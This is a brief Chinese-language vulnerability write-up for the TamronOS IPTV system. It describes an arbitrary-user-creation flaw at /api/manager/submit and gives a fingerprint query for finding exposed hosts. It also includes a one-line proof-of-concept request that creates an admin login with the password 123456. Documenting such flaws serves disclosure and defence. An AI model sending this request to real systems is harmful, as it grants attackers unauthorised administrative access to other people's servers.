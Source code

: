 # TamronOS IPTV系统 submit 任意用户创建漏洞

# TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

```
TamronOS IPTV系统
```

## 网络测绘

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](/images/202202101926166.png)



漏洞POC为



```plain
/api/manager/submit?group=1&username=test&password=123456
```



![](/images/202202101926524.png)



```plain
user: test
pass: 123456
```



![](/images/202202101926288.png)


